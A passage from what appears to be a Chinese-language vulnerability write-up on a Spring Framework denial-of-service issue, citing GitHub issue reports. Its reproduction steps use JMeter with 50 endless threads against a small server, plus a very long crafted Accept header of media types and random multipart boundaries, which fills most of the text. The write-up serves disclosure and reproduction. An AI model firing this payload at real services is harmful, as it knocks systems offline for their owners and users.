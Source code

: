 <a class="reference-link" name="2%E3%80%81%E9%80%9A%E8%BF%87%E5%86%8D%E6%AC%A1%E5%9B%9E%E5%A4%8D%E5%AE%98%E6%96%B9%E7%A0%94%E5%8F%91%E4%BA%BA%E5%91%98%EF%BC%8C%E5%B9%B6%E6%8F%90%E4%BE%9B%E6%9B%B4%E5%A4%9A%E7%9A%84%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF%E8%AF%81%E6%98%8E2.2.6%E7%89%88%E6%9C%AC%E4%BF%AE%E5%A4%8D%E4%B9%8B%E5%90%8E%E4%BE%9D%E7%84%B6%E5%AD%98%E5%9C%A8%E8%AF%A5%E9%97%AE%E9%A2%98"></a>2、通过再次回复官方研发人员，并提供更多的相关信息证明2.2.6版本修复之后依然存在该问题
- [https://github.com/spring-projects/spring-framework/issues/24671#issuecomment-611427157](https://github.com/spring-projects/spring-framework/issues/24671#issuecomment-611427157)
<a class="reference-link" name="3%E3%80%81%E5%9C%A8%E6%AD%A4%E6%9C%9F%E9%97%B4%E5%8F%88%E6%9C%89%E4%BA%BA%E7%BB%99%E5%87%BA%E9%80%9A%E8%BF%87MediaType%20%E4%B8%8A%E4%BC%A0%E7%B1%BB%E5%9E%8B%E6%9E%84%E9%80%A0%E7%9A%84Accept"></a>3、在此期间又有人给出通过MediaType 上传类型构造的Accept
- [https://github.com/spring-projects/spring-framework/issues/24767](https://github.com/spring-projects/spring-framework/issues/24767)
<a class="reference-link" name="4%E3%80%81%E5%85%B7%E4%BD%93%E6%9E%84%E9%80%A0%E9%AA%8C%E8%AF%81"></a>4、具体构造验证

找一台低配版的服务 1c2g

使用jmeter，设置线程组，不需要特别高50个线程，永久发送

设置header的Accpet，可以先使用内容如下：

```
application/stream+x-jackson-smile, application/vnd.spring-boot.actuator.v3+json, application/vnd.spring-boot.actuator.v2+json, application/json, multipart/form-data; boundary=----WebKitFormBoundaryVHfecvFDYeDEjhu4, multipart/form-data; boundary=----WebKitFormBoundarymKzwdDkWNDNzQFP0, multipart/form-data; boundary=----WebKitFormBoundaryiWpMXOUbWwBwq2AX, application/x-www-form-urlencoded, text/html;charset=UTF-8, application/octet-stream, application/vnd.ms-excel;charset=utf8, application/msword, multipart/form-data; boundary=----WebKitFormBoundaryGF2AJ2ZdPqbWOyEO, multipart/form-data; boundary=----WebKitFormBoundaryTZLPpyBs2F0ycmkB, multipart/form-data; boundary=----WebKitFormBoundaryBUClXdZPA3oxpUpx, image/jpeg;charset=UTF-8, multipart/form-data; boundary=----WebKitFormBoundarysODcdeMwzfHwEjtw, multipart/form-data; boundary=----WebKitFormBoundary26i2en6YQUSXUBzs, multipart/form-data; boundary=----WebKitFormBoundaryxUUWAyZnZjwlM1oy, multipart/form-data; boundary=----WebKitFormBoundarysVMYk11tVTTsXuEB, multipart/form-data; boundary=----WebKitFormBoundaryXsI4dpNsVTCWWrRo, multipart/form-data; boundary=----WebKitFormBoundaryiV1owCGwTHyQzja0, multipart/form-data; boundary=----WebKitFormBoundarygf1XpLmgasAQU9fi, multipart/form-data; boundary=----WebKitFormBoundaryBNaQtUvpQ2VV7YYA, multipart/form-data; boundary=----WebKitFormBoundaryW1rdrg4AbJ5Jn3Po, multipart/form-data; boundary=----WebKitFormBoundaryoBwFj2ABM5LflDmW, multipart/form-data; boundary=----WebKitFormBoundary40xI2TxryjbkSCtO, multipart/form-data; boundary=----WebKitFormBoundarytaCC9B6g8u4urnLF, multipart/form-data; boundary=----WebKitFormBoundaryOrhplGKYP9ozLkCs, multipart/form-data; boundary=----WebKitFormBoundaryvEUouFAr3R3YJYBh, multipart/form-data; boundary=----WebKitFormBoundaryuQ9tEKtn59w5hPLY, multipart/form-data; boundary=----WebKitFormBoundaryRGvPXUBAuZ6xJ95u, application/vnd.openxmlformats-officedocument.wordprocessingml.document, multipart/form-data; boundary=----WebKitFormBoundary7jpljZi4k61KhCNN, multipart/form-data; boundary=----WebKitFormBoundary7GVKDTHVuBABvjGB, multipart/form-data; boundary=----WebKitFormBoundaryZbNBPl3T4VZ44q6B, audio/mp3, multipart/form-data; boundary=----WebKitFormBoundaryI6rUM76YvxrIEcqv, multipart/form-data; boundary=----WebKitFormBoundaryag4BDWrzifHRdDiR, multipart/form-data; boundary=----WebKitFormBoundary1YRsWAdVqDin8g8p, multipart/form-data; boundary=----WebKitFormBoundaryDaatlrV3KAyZu7wA, multipart/form-data; boundary=----WebKitFormBoundaryyhvikZJdRGH1AjQq, multipart/form-data; boundary=----WebKitFormBoundary2z4SJhqeEx5XtVj4, multipart/form-data; boundary=----WebKitFormBoundaryeDLd1MTvuhmcmzNe, multipart/form-data; boundary=----WebKitFormBoundarybKizrvRESfhxHAMQ, multipart/form-data; boundary=----WebKitFormBoundary24U8tmsOluZqcRXX, multipart/form-data; boundary=----WebKitFormBoundarye4j6KdQyBjY4FqSk, multipart/form-data; boundary=----WebKitFormBoundaryjPmgLdzMcMYYB3yS, multipart/form-data; boundary=----WebKitFormBoundaryxzBZ9w6Je3IJ53NM, multipart/form-data; boundary=----WebKitFormBoundaryScy0j73cvx3iCFyY, multipart/form-data; boundary=----WebKitFormBoundaryTBoS8s4YWwmBGTDA, image/*, multipart/form-data; boundary=----WebKitFormBoundaryRUutFo3RXlNPgoBS, text/html;charset=utf-8, multipart/form-data; boundary=----WebKitFormBoundarykLObBi1tJMf158kt, multipart/form-data; boundary=----WebKitFormBoundary8M8MfCWBEFcsxnBU
```
